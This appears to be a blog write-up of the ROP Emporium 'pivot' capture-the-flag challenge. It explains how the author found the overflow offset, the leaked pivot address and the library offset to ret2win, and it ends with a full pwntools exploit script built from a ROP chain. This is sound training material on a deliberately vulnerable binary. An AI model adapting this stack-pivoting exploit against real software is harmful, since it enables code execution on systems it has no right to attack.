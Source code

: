 ```yaml
---
layout: post
title: ropemporium - pivot
date: 2025-01-10 00:13:37 +0300
description: 
img: ropemporium-pivot/cover.png
fig-caption: 
tags:
  - ctf
---
```

*This challenge was a very good beginning for the idea of stack pivoting, and how to call functions using offsets of the libraries. Even though is very simple, concepts like calculating the offset of functions and call another one, based on that offset, were applied.*

Starting with the check for the file protections:

![](../assets/img/ropemporium-ret2csu/Pasted%20image%2020250107232141.png)
*File protections*

- Partial RELRO
- NX enabled

Sending a payload generated by *metasploit-pattern_create*, and calculating the offset with *metasploit-pattern_offset*, the offset found was 40.

![](../assets/img/ropemporium-ret2csu/Pasted%20image%2020250107223653.png)
*Buffer overflow with the found offset*

![](../assets/img/ropemporium-ret2csu/Pasted%20image%2020250107223635.png)
*Offset match at 40.*

For this challenge, the description explains that we need to just call the *ret2win* function. Since the default stack smashing challenges provides us a plenty of space to build our chain, this one is a bit different, providing basically none.

Looking into the program imports using **rabin2**, there ir no *ret2win* function, but we have the *foothold_function*.

```bash
rabin2 -i pivot
```
![](../assets/img/ropemporium-ret2csu/Pasted%20image%2020250109095030.png)
*Function foothold_function imported.*

This is because the *ret2win* function is present only inside the provided library, and is not called by the binary directly, and we have to find a way to call it in our chain.

```bash
nm libpivot.so | grep ' T '
```
![](../assets/img/ropemporium-ret2csu/Pasted%20image%2020250109095226.png)
*The ret2win function inside the libpivot lib*

Executing the program normally and sending a big payload, the stack already hit a non-writable place less than 30 bytes.

![](../assets/img/ropemporium-ret2csu/Pasted%20image%2020250109094116.png)
*This place on the stack is non-writable*

So, the challenge consists of pivoting the stack to another place that we could send our rop chain properly.

The *foothold_function* is called inside the binary, and it will be used to pivot the stack to a place with more space.

During the normal execution flow, the "gods kindly bestowed upon us" a place to pivot the stack to:

![](../assets/img/ropemporium-ret2csu/Pasted%20image%2020250109094350.png)
*0x7ffff7a0df10*

Checking the position address, is perceived that we have indeed a plenty of space there, serving as a adequate space for the chain to be inserted.

![](../assets/img/ropemporium-pivot/cover.png)
*No data in the address allocated*

Now we have to find a way to call the function in the imported lib, using the offset of the *foothold_function* and *ret2win* functions. Calculating the offset of the base addresses, we could discover how many bytes are needed to add to the *foothold_function* address to reach *ret2win*.

![](../assets/img/ropemporium-ret2csu/Pasted%20image%2020250110001630.png)
*Base addresses of the functions foothold_function and ret2win*

Calculating the value using python, the offset returned was **279** or `0x117`.

![](../assets/img/ropemporium-ret2csu/Pasted%20image%2020250110001329.png)
*Offset from foothold_function to ret2win*

From now, is possible to create a logic for our rop chain:
1. Pivot the stack to another place
2. Call the *foothold_function* from PLT to update the GOT address.
3. Call the *ret2win* function from the address calculated from the offset.

Gathering our gadgets to achieve the desired goals, we found the following:

```
1: 0x4009bb : pop rax; ret
2: 0x4009c0 : mov rax, [rax]
3: 0x4009bd : xchg rsp, rax ; ret
4: 0x4009c4 : add rax, rbp ; ret
5: 0x4007c1 : jmp rax
```

Since we need to send 2 chains to the program, we built them as follows:

First chain:
1. Fill the buffer until *RBP* position;
2. Set the *RBP* position on the stack smash to the *ret2win* function offset relative to *foothold_function@got*;
3. Use (1) to set *RAX* to the new stack position;
4. Use (3) to set *RAX* to *RSP* and pivot the stack.

Second chain:
1. Address of *foothold_function@plt*;
2. Use (1) to set *RAX* to the *foothold_function@got* address;
3. Use (2) to set *RAX* to the value inside the *foothold_function@got* address;
4. Use (4) to add the offset (inside *RBX*) to *RAX*;
5. Use (5) to jump to the address inside *RAX*, which is the *ret2win*function.

Coming out with the final exploit, we got the flag.
![](../assets/img/ropemporium-ret2csu/Pasted%20image%2020250110215713.png)
*Flag obtained*

Final exploit code:
```python
#!/usr/bin/env python

from pwn import *

foothold_function_plt = p64(0x400720)
foothold_function_got = p64(0x601040)

POP_RAX = p64(0x4009bb) # pop rax ; ret
MOV_RAX_pRAX = p64(0x4009c0) # mov rax, [rax]
XCHG_RSP_RAX = p64(0x4009bd) # xchg rsp, rax ; ret
ADD_RAX_RBP = p64(0x4009c4) # add rax,rbp
JMP_RAX = p64(0x4007c1) # jmp rax

elf = context.binary = ELF('./pivot')
io = process(elf.path)
io.recvuntil(b'pivot: ')

info('Getting the pivot place...')
PIVOT_DEST = int(io.recv(14),16)

info('Pivot new location: %#x', PIVOT_DEST)
PIVOT_DEST = p64(PIVOT_DEST)
io.recv(1024)

BUFFER_FILL = b"B"*32
RBP = p64(279)

first_chain = BUFFER_FILL 
first_chain += RBP 
first_chain += POP_RAX 
first_chain += PIVOT_DEST 
first_chain += XCHG_RSP_RAX

second_chain = foothold_function_plt 
second_chain += POP_RAX 
second_chain += foothold_function_got 
second_chain += MOV_RAX_pRAX 
second_chain += ADD_RAX_RBP 
second_chain += JMP_RAX

io.send(second_chain)
io.send(first_chain)

io.interactive()
```